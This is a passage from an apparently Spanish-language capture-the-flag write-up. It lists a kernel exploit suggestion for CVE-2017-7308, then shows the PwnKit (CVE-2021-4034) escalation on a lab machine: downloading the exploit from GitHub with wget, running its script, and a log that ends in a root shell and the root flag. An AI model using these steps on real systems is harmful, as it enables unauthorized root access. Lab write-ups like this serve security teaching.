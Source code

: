 ```bash

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels
   - - - - 
```
Utilizaremos PwnKit, una vulnerabilidad crítica descubierta en Polkit (anteriormente conocido como PolicyKit), una herramienta utilizada en sistemas Unix-like para gestionar privilegios y permisos. Esta vulnerabilidad, identificada como CVE-2021-4034, permite la escalación de privilegios locales, lo que significa que un usuario sin privilegios puede obtener permisos de root
```bash
wget https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```
Una vez descargado, procedemos a descomprimirlo
```bash
unzip main
```
Esto nos proporcionará la carpeta CVE-2021-4034-main. Dentro de esta carpeta encontraremos el script cve-2021-4034.sh, el cual utilizaremos para obtener acceso root. Por lo tanto, procedemos a ejecutarlo
```bash
cd CVE-2021-4034-main
```
```bash
./cve-2021-4034.sh
```
Con esto habremos obtenido acceso al usuario root. Si nos dirigimos a su directorio home, /root, encontraremos la bandera root.txt
```bash
www-data@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034.sh    
./cve-2021-4034.sh
./cve-2021-4034.sh: 9: ./cve-2021-4034.sh: curl: not found
./cve-2021-4034.sh: 9: ./cve-2021-4034.sh: curl: not found
./cve-2021-4034.sh: 9: ./cve-2021-4034.sh: curl: not found
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
# cd /root
cd /root
# cat root.txt
cat root.txt
b2b17036da1de94cfb024540a8e7075a
```